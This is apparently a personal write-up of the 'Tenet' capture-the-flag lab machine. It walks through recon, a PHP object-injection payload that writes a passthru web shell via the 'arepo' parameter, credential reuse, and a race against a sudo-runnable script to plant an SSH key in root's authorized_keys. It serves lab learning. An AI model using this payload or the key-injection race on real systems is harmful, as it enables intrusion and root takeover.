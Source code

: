 ```yaml
---
layout: page
title:  "TENET"
permalink: /tenet/
comments: true
---
```

[Orrrrrrrrrrrrrr not, back to HOME!](/)<br>
<br>
<br>
<br>
<br>
# TENET
{: .fw-300 .lh-0 }
#### SUMMARY
{: .fs-6 .fw-300 .lh-0 }
<!-- excerpt-start -->
A superuser can ssh into the box via private key. The related public key can be set up automatically using a script. The public key file that the script relies on is world writable, and the script itself can be run by user neil with the aid of sudo.<br>
<br>
Neil uses the same credential for logging into the box and configuring WordPress.<br>
<br>
Neil is a developer who single-handedly works on data migration. The migration tool he build, in its early progress, is vulnerable to PHP object injection, which allows a file of arbitrary content and name to be created on the web server. Upon publicly holding someone accountable for their mistake, Neil leaks the name of his tool and that a backup exists. Both the tool and its backup are for some reason hosted on the server, available to everyone.<br>
<!-- excerpt-end -->
<br>
<br>
<br>
<br>
#### REFERENCE
{: .fs-6 .fw-300 .lh-0 }
[Serialization — PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html)<br>
<br>
<br>
<br>
<br>
#### WALKTHROUGH
{: .fs-6 .fw-300 .lh-0 }
[Skip to Deserialization of Untrusted Data (CWE-502)!](/tenet/#502)<br>
[Skip to Time-of-check Time-of-use (TOCTOU) Race Condition (CWE-367)!](/tenet/#367)<br>
<br>
<br>
Surface check.<br>
`nmap -sV -sC tenet.htb -oA tcp_t1k -v; searchsploit --nmap tcp_t1k.xml -v`<br>
Per nmap, ssh is open on port 22 and http is open on port 80. The automation feature that searchsploit offers so far provides meh result: it somehow does not search version numbers despite them being literally the whole point here. Manual search: nothing interesting.<br>
tenet.htb: appears to be a WordPress blog. `wpscan` and `gobuster`: nothing interesting.<br>
<br>
<br>
<details close markdown="block">
<summary>
Screenshot of the blog.
</summary>
![](/assets/images/tenet/migration.png)
[We'll encounter this "a bit more substantial" something soon.]<br>
![](/assets/images/tenet/comment.png)
[Poor Neil.]<br>
![](/assets/images/tenet/beta.png)
[Can we just appreciate "this is where our worlds collide" being quite some way of saying "ye wanna test this thing that we build?" here?]<br>
</details>
Keywords collected: `rotas`, `sator`, `protagonist`, `neil`, etc.<br>
The comment by Neil reveals that he used to be able to access "the sator php file and the backup" by some means but not any more. These two files can be hosted on this very server, with name say, `sator.php` and `sator.php.bak`. [Worldlists, experiences, imaginations, I have none.]<br>
Both files can be accessed under `rotas.tenet.htb`.<br>
<br>
<br>
<a id="502"></a>
Content of `sator.php.bak`.<br>
```php
<?php
class DatabaseExport{
	public $user_file = 'users.txt';
	public $data = '';
	public function update_db(){
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';}
	public function __destruct(){
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';}}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();
?>
```
User input via `arepo` parameter in url is fed into `unserialize()`.<br>
[Neil seems to use a string ('Success') as a placeholder for a text file ('Grabbing users from text file'); meanwhile a text file ('users.txt') as a placeholder for a database ('Database updated'); and something resemble API call (`arepo`, `unserialize`)? Indeed "a bit more substantial".]<br>
<br>
<br>
According to [Serialization — PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html), the output of `serialize()`:<br>
"It has some kind of type specifier (like s or i), followed by a colon, followed by the actual data, followed by a semicolon."<br>
The basic types available are N for NULL, b for boolean, i for integer, f for floating-point, and s for string.<br>
Things can be bundled up and refered to as a whole, so the compound types available are a for array, and O for object.<br>
When things are bundled up, if the count number provided is half of the number of things in that bundle (determined by the number of semicolons), pairs of a key and a value are assumed.<br>
<br>
<br>
Based on above, whatever payload is fed into `unserialize()`, it *at most* can come out as:<br>
A piece of data e.g. 'Success', 'users.txt'.<br>
A bundle of pieces of data e.g. ['Success', 'users.txt'].<br>
A bundle of pairs of data tied together i.e. key-value pairs or variables e.g. ['user_file'=>'users.txt', 'data'=>'Success']<br>
<br>
<br>
No such thing as *interactions between* those data, ehh? No function definition. No function call.<br>
Locate existing function call and see what can be achieved by changing the value of its input variable? Seems to be the only strategy here?<br>
The only function call in `sator.php` is `$app -> update_db();`, and the unserialization output locates before even the creation of object `$app`. [Ugh.]<br>
<br>
<br>
So it turns out: those functions that you explicitly call for, are not the only functions that get run, in a high-level language like PHP. Afterall, memory prepping work is needed just so that those computations you want can be done. In assemblies, on the other hand, if the stack pointer is not changed, well, good luck.<br>
That is to say, explicit function call might not be needed, to get some code execution on the target. In `sator.php`, function `__destruct()` will be run upon an object get destroyed. ["You are not useful any more now move your ass!"] [I somehow feel painful saying that.] Every object will be destroyed in the end as computation is done and they are no longer needed. [More pain.] Thus to run those code defined as `__destruct()`, all we need to do is create a new object. [Ugh.] The creation of such object is indeed allowed, as the visibility of this `__destruct()` is `public`.<br>
A file with arbituary content and name can be written on the server and called later on. Web shell. [I've learnt to not aim for reverse shell first, as so many recon can be done with simple commands, chances are a more legit shell can be obtained using the info gathered.]<br>
<br>
<br>
Now recall the bullet points from [Serialization — PHP Internals Book](https://www.phpinternalsbook.com/php5/classes_objects/serialization.html). `user_file` is a string of 9 characters, `tenet.php` is a string of 9 characters, `data` is a string of 4 characters, `<?php passthru($_GET("arepo"));?>` is a string of 33 characters, `DatabaseExport` is a string of 14 characters, number count 2 to signify pairs, O for object:`0:14:"DatabaseExport":2:{s:9:"user_file";s:9:"tenet.php";s:4:"data";s:33:"<?php passthru($_GET["arepo"]);?>";}`. URL encode and put in parameter `arepo` and request `rotas.tenet.htb`.<br>
<br>
<br>
<a id="367"></a>
Then it's pretty smooth: cred hunt, cred reuse, hats time (it is `sudo -l` that worked).<br>
```bash
User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```
```bash
-rwxr-xr-x 1 root root 1080 Dec  8  2020 /usr/local/bin/enableSSH.sh
```
```bash
checkAdded() {
	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi
}

checkFile() {
	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi
}

addKey() {
	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPPLs7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlUypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6NyqdzG5Nkn9LGZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNNw0p+Urjbl root@ubuntu"
addKey
checkAdded
```
Appears to configure ssh key for user root, root is indeed a superuser and `/etc/ssh/ssh_config` all clear. Worth inspecting.<br>
Between touch file and cat file into authorized_keys, the content of such file can be overwritten (`umask 110`, world writable) with a public key whose related private key we have. [In hindsight, this vulnerability is not a TOCTOU, as it lacks TOC. Function `checkFile` only check the existence of the file instead of its content integrity i.e. is the key still the same. Also, checking existence here seems unnecessary: file removal and recreation is not needed to swap its content since file is world writable; even if file removal is needed, no user except the owner which is root can carry out the removal; if root is already obtained, why race this file? Seems to be for bluffing.] Succeed with brute force, flooding the tmp directory with maybe thousands of key files. [Exhaustion from deriving PHP object injection.]<br>
<br>
<br>
That's it for the box.<br>
